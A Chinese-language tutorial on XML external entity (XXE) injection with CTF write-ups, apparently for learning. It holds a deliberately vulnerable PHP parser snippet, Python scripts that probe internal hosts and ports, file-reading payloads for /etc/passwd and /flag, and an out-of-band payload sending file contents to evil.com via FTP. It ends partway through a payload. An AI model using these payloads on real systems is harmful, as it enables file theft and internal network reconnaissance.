XXE——外部实体注入概述
XXE：XML External Entity 即外部实体，从安全角度理解成XML External Entity attack 外部实体注入攻击
概述
XML 被设计用来传输和存储数据。
HTML 被设计用来显示数据。
XML 不会替代 HTML，理解这一点很重要。在大多数 Web 应用程序中，XML 用于传输数据，而 HTML 用于格式化并显示数据。
XML语法规则
xml 必须包含根元素，它是所有其他元素的父元素，比如以下实例中 root 就是根元素：
<?xml version="1.0" encoding="UTF-8"?> //文档开头必须 <root> <child> <subchild>.....</subchild> </child> </root>在 XML 中，省略关闭标签是非法的。所有元素都必须有关闭标签
XML 标签对大小写敏感。标签
与标签 是不同的。必须使用相同的大小写来编写打开标签和关闭标签 在 XML 中，所有元素都必须彼此正确地嵌套
XML的注释同html
XML中空格会被保留，而HTML会把多个字符裁剪为一个
XML的标签可以自定义，就是说可以随便改
XML 的属性值必须加引号
<note date="12/11/2007"> <to>Tove</to> <from>Jani</from> </note>
简单来说就是xml语法基本同html，但是远比html要严格
XML实体
在 XML 中，一些字符拥有特殊的意义。
如果您把字符 “<” 放在 XML 元素中，会发生错误，这是因为解析器会把它当作新元素的开始。
实体是用于定义引用普通文本或特殊字符的快捷方式的变量
为了避免这个错误，需要实体引用来代替 “<” 字符：
在 XML 中，有 5 个预定义的实体引用
< < 小于
> > 大于
& & &符
' ' 单引
" " 双引
在 Windows 应用程序中，换行通常以一对字符来存储：回车符（CR）和换行符（LF）。
在 Unix 和 Mac OSX 中，使用 LF 来存储新行。
在旧的 Mac 系统中，使用 CR 来存储新行。
XML 以 LF 存储换行。
所有的XML文档都由五种简单的构建模块（元素，属性，实体，PCDATA CDATA）构成
XML DTD
DTD（文档类型定义）的作用是定义 XML 文档的合法构建模块。
DTD 的声明方式分为两种：内部 DTD 和外部 DTD ，其区别就在于：对 XML 文档中的元素、属性和实体的 DTD 的声明是在 XML 文档内部引用还是引用外部的 dtd 文件。
内部DTD
<?xml version="1.0"?> //声明xml版本
<!DOCTYPE note [ //声明此文档是note类型的文档
<!ELEMENT note (to,from,heading,body)> //声明此文档的所有元素
<!ELEMENT to (#PCDATA)> //定义to元素的类型为PCDATA
<!ELEMENT from (#PCDATA)> // 定义from元素类型为PCDATA
<!ELEMENT heading (#PCDATA)> // 定义heading为PCDATA
<!ELEMENT body (#PCDATA)> // 定义body为PCDATA
<!ENTITY writer "hello world"> // 定义一个内部实体
]>
<note>
<to>Tove</to>
<from>Jani</from>
<heading>Reminder</heading>
<body>Don't forget me this weekend</body>
</note>
外部DTD
外部引用分为通用实体和参数实体
通用实体
<?xml version="1.0" encoding="UTF-8"?> <!DOCTYPE foo [ <!ELEMENT foo ANY > #定义元素为ANY，即可以接受任何元素。 <!ENTITY xxe SYSTEM "file:///c:/test.dtd" >]> // 定义通用实体 <root> <body>&xxe;</body> #定义一个外部实体 </root>
通过第 4 行的定义， 第 7 行的 &xxe 就会对 c:/test.dtd 文件资源进行 SYSTEM 关键字的引用，这样对引用资源所做的任何更改都会在文档中自动更新。
另外除了上面 SYSTEM 关键字的引用方式，还有一种引用方式是使用 PUBLIC 引用公用 DTD 的方式，语法如下：
<!DOCTYPE 根元素名称 PUBLIC “DTD标识名” “公用DTD的URI”>
这个在我们的攻击中也可以起到和 SYSTEM 一样的作用，但实际上实体远不止这一种，我们以上涉及的实体只是其中的一种，被称为通用实体。
参数实体
<!ENTITY % an-element "<!ELEMENT mytag (subtag)>"> <!ENTITY % remote-dtd SYSTEM "http://somewhere.example.org/remote.dtd"> %an-element; %remote-dtd;在上面的代码示例中，可以看到实体名前多了一个 “%” ，在参数实体中使用 “% 实体名” (这里面的空格不能少) 定义，并且只能在 DTD 中使用 “% 实体名” 引用。
通用实体和参数实体的区别
“参数实体”在 DTD 中声明并在 DTD 中使用
DTD文件中只有参数实体才能引用其他实体
“通用实体”在 DTD 中声明并在 XML 文档中使用
XML中必须要用通用实体引用DTD
通过 DTD，您的每一个 XML 文件均可携带一个有关其自身格式的描述。
通过 DTD，独立的团体可一致地使用某个标准的 DTD 来交换数据。
而您的应用程序也可使用某个标准的 DTD 来验证从外部接收到的数据。
您还可以使用 DTD 来验证您自身的数据。
XXE注入实例
<?php
libxml_disable_entity_loader (false);
$xmlfile = file_get_contents('php://input');
$dom = new DOMDocument();
$dom->loadXML($xmlfile, LIBXML_NOENT | LIBXML_DTDLOAD);
$creds = simplexml_import_dom($dom); echo $creds;
?>
libxml_disable_entity_loader
禁用加载外部实体的功能
当值为false时开启对xml实体的加载功能
默认是禁用的
php://input、$_POST与$HTTP_RAW_POST_DATA
- $_POST
这是在数据交互时的常用方法，但不能接收json格式的数据，因为==post是以关联数组方式组织提交的数据==，并对此进行编码处理，如urldecode，甚至编码转换，识别的数据类型是PHP默认识别的数据类型，如application/x-www.form-urlencoded和multipart/form-data，无法解析如text/xml，application/json等非application/x-www.form-urlencoded 数据类型的内容。
- $HTTP_RAW_POST_DATA
==PHP默认识别的数据类型是application/x-www.form-urlencoded==,当**Content-Type=application/json**
类型时无法通过 $_POST获取，但是使用 GLOBALS[‘HTTP_RAW_POST_DATA’]可以获取到。因为在PHP无法识别Content-Type的时候，就会把 POST 数据填入HTTP_RAW_POST_DATA 中。但这种方法需要设置 php.ini 中的 always_populate_raw_post_data 值为 On 才会生效，且当POST 与php://input可以取到值时 $HTTP_RAW_POST_DATA 为空，当enctype=”multipart/form-data”时也无法使用。php7已经移除了这个全局变量
- php://input
除Coentent-Type为multipart/form-data之外，PHP都会将http请求数据包中的相应数据填入php://input，填入的长度由Coentent-Length指定。并且只有当Content-Type为application/x-www-data-urlencoded时，php://input数据才跟$_POST数据相一致（格式不一致，内容一致）。
HTML DOM Document 对象
每个载入浏览器的 HTML 文档都会成为 Document 对象。
Document 对象使我们可以从脚本中对 HTML 页面中的所有元素进行访问。
loadXML() 方法
loadXML() 方法通过解析一个 XML 标签字符串来组成该文档。
语法：
loadXML(text)
LIBXML_NOENT 该标志允许替换XML字符实体引用(无论是否外部).
如果没有LIBXML_NOENT，它将导致内部和外部实体的行为不同，因为不会加载内部和外部实体.
LIBXML_DTDLOAD 该表示允许加载DTD
simplexml_import_dom()
该函数把 DOM 节点转换为 SimpleXMLElement 对象。
语法
simplexml_import_dom(data,class)
| 参数 | 描述 |
|---|---|
| data | 必需。规定要使用的 DOM 节点。 |
| class | 必需。规定新对象的 class。 |
因为xml的特性（语法严格），所以flag中包含如
<>&"'等会报错，所以这时需要使用CDATA，或者base64编码什么是CDATA：
CDATA，意为character data，是标记语言SGML与XML，表示文档的特定部分是普通的字符数据，而不是非字符数据或有特定、限定结构的字符数据。在XML文档或外部实体中，一个CDATA section是一段按字面解释的内容，不作为标记文本。字符用CDATA节表示或者按照标准语法表示，并无差异。
CDATA 部分由
"<![CDATA["开始，由"]]>"结束
可用协议和平台的关系
总结概述：
XXE和SSRF都能从服务器向另一台服务器发起请求，如果将远程服务器的地址换成某个内网的地址，（比如 192.168.0.10:8080）也能实现 SSRF 同样的效果
XXE 其实也是一种 SSRF 的攻击手法，因为 SSRF 其实只是一种攻击模式，利用这种攻击模式我们能使用很多的协议以及漏洞进行攻击。
所以在进行XXE攻击时，我们必须知道在何种平台能使用何种协议

HTTP内网探测主机
正如刚才说的，XXE的本质其实就是一种SSRF。所以SSRF可以做到的事情XXE自然也能做到
因此XXE也可以探测内网主机
内网探测主机脚本：
import requests
import base64
def XXE(ip,string):
try:
xml = """<?xml version="1.0" encoding="ISO-8859-1"?>"""
xml = xml + "\r\n" + """<!DOCTYPE foo [ <!ELEMENT foo ANY >"""
xml = xml + "\r\n" + """<!ENTITY xxe SYSTEM """ + '"' + string + '"' + """>]>"""
xml = xml + "\r\n" + """<xml>"""
xml = xml + "\r\n" + """ <stuff>&xxe;</stuff>"""
xml = xml + "\r\n" + """</xml>"""
x = requests.post('http://192.168.50.132/xxe_blind_test.php', data=xml, headers=headers, timeout=5).text
coded_string = x.split(' ')[-2]
print(' [+]',ip,'Successfully Found !!!')
except:
print(' [-]',ip,'Error Not Found !!!')
pass
if __name__ == '__main__':
headers = {'Content-Type':'application/xml'}
for i in range(1,255):
ip = '192.168.50.' + str(i)
string = 'php://filter/convert.base64-encode/resource=http://' + ip + '/'
XXE(ip,string)
探测到主机后，我们要对其进行端口扫描，原理同探测主机，只不过室将遍历ip地址变成了遍历端口号
当然也可以使用burp和nmap探测
XXE端口探测端口脚本
import requests
import base64
def XXE(port):
xml = """<?xml version="1.0" encoding="utf-8"?> """
xml = xml + "\r\n" + """<!DOCTYPE data SYSTEM "http://192.168.50.132:""" + str(port) + """/" ["""
xml = xml + "\r\n" + """<!ELEMENT data (#PCDATA)> """
xml = xml + "\r\n" + """]>"""
xml = xml + "\r\n" + """<data>7</data>"""
r = requests.post('http://192.168.50.132/xxe_blind_test.php', data=xml,timeout=5)
#print(port,r.elapsed.total_seconds())
if ("Connection refused" in r.text):
print(" [-]", port, " seems shut down")
else:
print(" [+]", port, "is up")
if __name__ == '__main__':
for i in range(9080,9082):
XXE(i)
无论什么脚本都需要根据实际的情况来决定，脚本不是一成不变的
XXE漏洞挖掘
以下摘自：https://ca01h.top/Web_security/basic_learning/20.xxe%E6%BC%8F%E6%B4%9E%E5%88%A9%E7%94%A8/#%E6%80%9D%E8%80%83
常用检测方法
首先查看XML是否可以成功解析
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE ANY [
<!ENTITY name "test1">]>
<root>&name;</root>
如果页面输出了test1，则可以解析XML。
第二步查看是否支持DTD引用外部实体：
<?xml version=”1.0” encoding=”UTF-8”?>
<!DOCTYPE ANY [
<!ENTITY % name SYSTEM "http://myhost/index.html">
%name;
]>
然后在我的服务器上查看日志,如果有目标服务器向我的服务器发送了一条index.html的请求,说明
支持引用外部实体,很有可能存在xxe漏洞。
外部普通实体
当有回显时，利用file://协议:
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE lltest[
<!ENTITY xxe SYSTEM "file:///C:/Windows/win.ini">
]>
<user><username>&xxe;</username><password>123456</password></user>
外部参数实体
当无回显，使用http协议:
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE note[
<!ENTITY % lltest SYSTEM "http://myhost:1234/test_xxe">
%lltest;
]>
然后在myhost监听1234端口(dnslog地址也可以),查看是否有http请求。
JSON 字符串XXE
现在基本上所有的web程序都放弃了XML而使用JSON作为Clinet-Server 通信的数据格式
不过虽然只可以正确的接收一种，但服务器可以解释多种，这就导致了即使使用JSON接收数据，仍会收到XXE注入攻击
测试方法很简单,就是将Content-Type: application/json修改为Content-Type: application/xml，数据格式不变，查看是否报错:{"errors":{"errorMessage":"org.xml.sax.SAXParseException: XML document structures must start and end within the same entity."}}
可以发现服务器是可以处理xml数据的，于是我们利用这个来进行攻击。
payload:
...
Content-Type: application/xml
...
<?xml version="1.0" encoding="UTF-8" ?>
<!DOCTYPE netspi [<!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
<root>
<param1>name</param1>
<param2>&xxe;</param2>
</root>
查看是否可以读取敏感文件。
利用FTP协议获取敏感信息
利用ftp协议获取服务器信息/内网ip之类的技巧：
在攻击者服务器上运行rb脚本(模拟FTP服务器:https://github.com/ONsec-Lab/scripts/blob/master/xxe-ftp-server.rb),监听8080端口。
然后在web程序那里输入payload:
<?xml version="1.0"?>
<!DOCTYPE a [
<!ENTITY % asd SYSTEM "http://evil.com/ext.dtd">
%asd;
%rrr;
]>
<a></a>
ext.dtd
<!ENTITY % b SYSTEM "file:///etc/passwd">
<!ENTITY % c "<!ENTITY % rrr SYSTEM 'ftp://evil.com:8000/%b;'>">
然后在模拟的FTP服务器上就会收到一些服务器信息/文件内容
技巧来自：http://lab.onsec.ru/2014/06/xxe-oob-exploitation-at-java-17.html
Bypass
有时Server会将用户的输入做一定的限制，但XXE的攻击模式和XML的传参方式注定限制不可能过多（会影响网站的性能），所以按过滤的情况百度即可
无法调用外部实体时的注入
内部实体引用
<?xml version="1.0"?>
<!DOCTYPE message [
<!ENTITY % remote SYSTEM "/usr/share/yelp/dtd/docbookx.dtd">
<!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=file:///flag">
<!ENTITY % ISOamso '
<!ENTITY % eval "<!ENTITY &#x25; send SYSTEM 'file://hhhhhhhh/?%file;'>">
%eval;
%send;
'>
%remote;
]>
<message>1234</message>
三层嵌套
<?xml version="1.0"?>
<!DOCTYPE message [
<!ELEMENT message ANY>
<!ENTITY % para1 SYSTEM "file:///flag">
<!ENTITY % para '
<!ENTITY % para2 "<!ENTITY &#x25; error SYSTEM 'file:///%para1;'>">
%para2;
'>
%para;
]>
<message>10</message>
这部分可以看2019 Google CTF-XXE https://zhuanlan.zhihu.com/p/88125925
应该算是XXE部分最难的题目
XXE的防御
以下摘自https://ca01h.top/Web_security/basic_learning/20.xxe%E6%BC%8F%E6%B4%9E%E5%88%A9%E7%94%A8/#XXE%E5%A6%82%E4%BD%95%E9%98%B2%E5%BE%A1
1、使用开发语言提供的禁用外部实体的方法
php:
libxml_disable_entity_loader(true);
java:
DocumentBuilderFactory dbf =DocumentBuilderFactory.newInstance();
dbf.setExpandEntityReferences(false);
Python:
from lxml import etree
xmlData = etree.parse(xmlSource,etree.XMLParser(resolve_entities=False))
2、过滤用户提交的XML数据
过滤关键字：<\!DOCTYPE和<\!ENTITY，或者SYSTEM和PUBLIC。
3、不允许XML中含有自己定义的DTD
用CTF题目理解XXE攻击
[NCTF2019]Fake XML cookbook

进入后首先可以看到一个登录页面，直接先上CTF三部曲——看源码、抓包、找后台

这道题很直白，可以明显的看到这是XXE漏洞
如果是application/json 就要转为xml试一试了，一般来说，看传参格式是<...>基本就可以确定是xml了
当然也可以测试一下

测试方法就是随便写一个不可能被过滤的字符，然后看看响应的回显
根据之前所学的XML语法，来构造payload,当然一般情况下可以直接百度payload

file伪协议payload：
<?xml version="1.0"?>
<!DOCTYPE root [
<!ENTITY file SYSTEM "file:///etc/passwd">
]>
<user>
<username>&file;</username>
<password>1111</password>
</user>
file协议用于要读取的文件没有如<&等特殊字符的情况下，有特殊字符会导致失败报错
php伪协议payload
<?xml version="1.0"?>
<!DOCTYPE root [
<!ENTITY file SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd">
]>
<user>
<username>&file;</username>
<password>1111</password>
</user>
php编写的网站中，php伪协议基本可以说是最可用的协议

查看内网的存活主机
<?xml version="1.0"?>
<!DOCTYPE root [
<!ENTITY file SYSTEM "file:///etc/hosts">
]>
<user>
<username>&file;</username>
<password>1111</password>
</user>

主要就是使用几个Linux系统的特殊文件夹
这里也不只有/etc/hosts文件，还可以通用/proc目录下的多个文件查看，一般使用hosts足以
/proc文件目录：
flag
<?xml version="1.0"?>
<!DOCTYPE root [
<!ENTITY file SYSTEM "file:///flag">
]>
<user>
<username>&file;</username>
<password>1111</password>
</user>
调用其他服务器的DTD文档
(先留着，服务器这几天炸了，没得试)
得到flag
flag{dd841ec9-3408-4ce8-9f13-b1304a2d987e}
2019 Google CTF-XXE

CTF三部曲直接开始

json格式，学的XXE , 不妨试一试改xml

将message从json格式改为xml格式

回显成功
payload:
<?xml version="1.0" encoding="UTF-8" ?>
<!DOCTYPE message [
<!ELEMENT message (#PCDATA)>
<!ENTITY id "1234010123502402340">
]>
<message>&id;</message>
payload我是直接抄的wp，但后面我自己研究了一下，所以分析一波
不想看就跳过这部分
分析
将json格式的数据改为xml格式，可以使用工具也可以直接手敲，原理都一样
题目中给我们的是{"message":"135601360123502401401250"}
xml和json的数据有一个对应法则，json的key值对应xml标签，json的value对应xml的值
所以可以改为
<?xml version="1.0"?>
<message>135601360123502401401250</message>

报错，根据错误提示，我们需要一个XML-DTD
所以改为xml引用DTD的值
<?xml version="1.0"?>
<!DOCTYPE root [
<!ENTITY aaa "135601360123502401401250">
]>
<message>&aaa;</message>
仍然报错

root和message不匹配，说明题目允许解析的DTD文档根标签需要和xml传入的标签一致，故将根标签改成message
<?xml version="1.0"?>
<!DOCTYPE message [
<!ENTITY aaa "135601360123502401401250">
]>
<message>&aaa;</message>
又报错，说没有ELEMENT声明，这个我真没查到为什么一定要写，大概和我没有把xml完整学一遍有关

他说缺啥我就给啥
<?xml version="1.0"?>
<!DOCTYPE message [
<!ELEMENT message (#PCDATA)>
<!ENTITY aaa "135601360123502401401250">
]>
<h1>&aaa;</h1>
这就是wp里的payload了
CDATA和PCDATA
- CDATA是指CDATA就是指字符串
- PCDATA可以是字符串、子元素、字符串和子元素 ,是混合类型
攻击部分
在成功后，开始攻击
回显不会改变，所以不能直接写请求包上面，而外部实体无法调用
<!ENTITY % dtd SYSTEM "https://x.com">
调用会直接报错
这里wp调用了Linux自带的dtd
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE message [
<!ELEMENT message (#PCDATA)>
<!ENTITY id "1234010123502402340">
<!ENTITY % dtd SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd"> //加载了自带的dtd
<!ENTITY % ISOamsa '
